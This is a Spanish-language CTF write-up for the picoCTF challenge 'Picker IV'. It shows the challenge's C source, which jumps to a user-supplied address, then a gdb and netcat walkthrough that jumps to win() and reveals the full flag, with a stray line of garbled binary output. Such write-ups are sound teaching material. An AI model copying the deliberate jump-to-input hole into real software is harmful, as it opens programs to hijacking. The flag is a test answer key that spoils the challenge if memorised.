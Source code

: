 # Picker IV

## Descripcion Reto
Can you figure out how this program works to get the flag?

Additional details will be available after launching your challenge instance.

## Pistas
1. (None)

## Solución
```bash
┌──(kali㉿kali)-[~/hacking/examen3]
└─$ ls
picker-IV  picker-IV.c

                                 p@@�@@�0�0+�0 ▒        �7��:                                                                                  
┌──(kali㉿kali)-[~/hacking/examen3]
┌──(kali㉿kali)-[~/hacking/examen3]
└─$ cat picker-IV.c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}


┌──(kali㉿kali)-[~/hacking/examen3]
└─$ gdb picker-IV      


(gdb) break win
Breakpoint 1 at 0x4012a6
(gdb) run
Starting program: /home/kali/hacking/examen3/picker-IV 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter the address in hex to jump to, excluding '0x': 0xdddddddd
You input 0xdddddddd

Program received signal SIGSEGV, Segmentation fault.
0x00000000dddddddd in ?? ()
(gdb) info address win
Symbol "win" is at 0x40129e in a file compiled without debugging.
(gdb) set $rip=0x40129e
(gdb) continue
Continuing.
Segfault triggered! Exiting.
[Inferior 1 (process 84481) exited with code 013]
(gdb) 

┌──(kali㉿kali)-[~/hacking/examen3]
└─$ nc saturn.picoctf.net 57136
Enter the address in hex to jump to, excluding '0x': 0x40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}


```

## Bandera
* picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}


## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()